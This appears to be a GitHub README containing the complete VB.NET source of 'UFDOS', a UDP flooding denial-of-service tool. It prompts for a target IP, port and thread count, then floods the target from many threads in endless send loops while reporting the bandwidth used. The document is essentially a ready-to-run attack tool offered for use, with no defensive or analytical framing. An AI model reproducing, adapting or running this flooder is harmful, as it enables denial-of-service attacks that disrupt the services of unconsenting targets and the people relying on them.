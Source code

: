 # UFDOS
UFDOS is a UDP flooding tool ('U'dp 'F'looding 'DOS')
This tool is writen with VB2010
<h1>Code:</h1>

<code>Imports System.Threading, System.Net.Sockets
Imports System.Net
Imports System.Text</code>

    Public Module Module1
        Public UPSIS As Integer
        Sub Main()

        'UFDOS-1b_christmas2023_vbnet20231221_1
        '                                         ==                                            
        '                                        -**=                                           
        '                                   :--==****==--:                                      
        '                                    -**********=.                                      
        '                                     .+*******.                                        
        '                                     .+*******:                                        
        '                                    :=*+===++*+-                                       
        '                                  .--------======:                                     
        '                                 :---------========.                                   
        '                               .------------========:                                  
        '                              :-------------=+++======.                                
        '                            :--------------=****+======-                               
        '                           ----------------=****+========.                             
        '                         .------------------==++==========:                            
        '                         :-------------------=============-                            
        '                           ...--------================:::.                             
        '                             :-------=================-                                
        '                           .------------------==========.                              
        '                          :-------------------===========-                             
        '                        .-----==---------------====--======.                           
        '                       :----+****=--------------==----======-                          
        '                     .------+****=--------------==============.                        
        '                    :--------====----------------==============-                       
        '                  .----------------------::::----================:                     
        '                 :------------------------:::-----================-                    
        '                 ---------------------------------=================.                   
        '                 .:::-----------===============================---.                    
        '                    ------------================================.                      
        '                  .-------------=================================:                     
        '                 .-------------------=====----------==============:                    
        '                :-------------------=****+----------===============-                   
        '               ---------------------=****+-----------==--:--=========.                 
        '             .-------:::-------------=====-----------==:::::==========:                
        '            :-------:::::-----------------------------==----===========-               
        '           :------------------------------------------===================              
        '          ---------------------------------------------=================== 
        '          ---------------------------------------------=================== 
        '            .......................++++++++++++++:.......................  
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++*******.
        '                                   +++++++******* 
        '                                   .=+++++*****+: 
        Console.SetWindowSize(105, 21)
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("|UUUUUUUU     UUUUUUUUFFFFFFFFFFFFFFFFFFFFFFDDDDDDDDDDDDD             OOOOOOOOO        SSSSSSSSSSSSSSS |")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD::::::::::::DDD        OO:::::::::OO    SS:::::::::::::::S|")
        Console.WriteLine("|U::::::U     U::::::UF::::::::::::::::::::FD:::::::::::::::DD    OO:::::::::::::OO S:::::SSSSSS::::::S|")
        Console.WriteLine("|UU:::::U     U:::::UUFF::::::FFFFFFFFF::::FDDD:::::DDDDD:::::D  O:::::::OOO:::::::OS:::::S     SSSSSSS|")
        Console.WriteLine("| U:::::U     U:::::U   F:::::F       FFFFFF  D:::::D    D:::::D O::::::O   O::::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::OS:::::S            |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O S::::SSSS         |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O  SS::::::SSSSS    |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::::::::::::F     D:::::D     D:::::DO:::::O     O:::::O    SSS::::::::SS  |")
        Console.WriteLine("| U:::::D     D:::::U   F::::::FFFFFFFFFF     D:::::D     D:::::DO:::::O     O:::::O       SSSSSS::::S |")
        Console.WriteLine("| U:::::D     D:::::U   F:::::F               D:::::D     D:::::DO:::::O     O:::::O            S:::::S|")
        Console.WriteLine("| U::::::U   U::::::U   F:::::F               D:::::D    D:::::D O::::::O   O::::::O            S:::::S|")
        Console.WriteLine("| U:::::::UUU:::::::U FF:::::::FF           DDD:::::DDDDD:::::D  O:::::::OOO:::::::OSSSSSSS     S:::::S|")
        Console.WriteLine("|  UU:::::::::::::UU  F::::::::FF           D:::::::::::::::DD    OO:::::::::::::OO S::::::SSSSSS:::::S|")
        Console.WriteLine("|    UU:::::::::UU    F::::::::FF           D::::::::::::DDD        OO:::::::::OO   S:::::::::::::::SS |")
        Console.WriteLine("|      UUUUUUUUU      FFFFFFFFFFF           DDDDDDDDDDDDD             OOOOOOOOO      SSSSSSSSSSSSSSS   |")
        Console.WriteLine("+------------------------------------------------------------------------------------------------------+")
        Console.WriteLine("UFDOS-1b_christmas2023_vbnet20231221_1")
        Console.WriteLine("")
        Console.Write("IP Address:")
        Static IPADDR
        IPADDR = Console.ReadLine()
        Console.Write("Port:")
        Static PORT
        PORT = Console.ReadLine()
        Console.Write("Threads:")
        Static THREADS As Integer
        THREADS = Console.ReadLine()

        Console.WriteLine("Spawning threads(" & THREADS & ")")
        Dim TCNT As Integer
        TCNT = 0
        Do Until TCNT = THREADS
            TCNT = TCNT + 1
            Dim NThread As New Thread(Sub() IKUN(IPADDR, PORT))
            NThread.Start()

        Loop
        Dim NETCNT As New Thread(AddressOf SMALLBLACKZI)
        NETCNT.Start()
        Console.WriteLine("Done! Press ENTER to exit.")
        Console.ReadLine()
        End
    End Sub
    Public Sub IKUN(ByVal IPADDR, ByVal PORT)
        Dim udpClient As New UdpClient
        Dim GLOIP As IPAddress
        Dim GLOINTPORT As Integer
        Dim bytCommand As Byte() = New Byte() {}
        GLOIP = IPAddress.Parse(IPADDR)
        GLOINTPORT = PORT
        udpClient.Connect(GLOIP, GLOINTPORT)
        bytCommand = Encoding.ASCII.GetBytes("QWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyiQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jto0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.jQWERTYUIOqwertyuioASDFRTYUasdfwegwbk7348507969i6defgh#&()IUYGVBNFUI$YGCRFGUTYu4yyreuyito0948576ythgfjkidr9487yhgnfmdje,.nlpjh;.j")
        Do
            UPSIS = UPSIS + bytCommand.Length
            udpClient.Send(bytCommand, bytCommand.Length)

        Loop

    End Sub
    Public Sub SMALLBLACKZI()
        Do
            UPSIS = 0
            Thread.Sleep(1000)
            Console.WriteLine(UPSIS * 8 / 1000 / 1000 & "Mbps")
        Loop
    End Sub
End Module
</code>
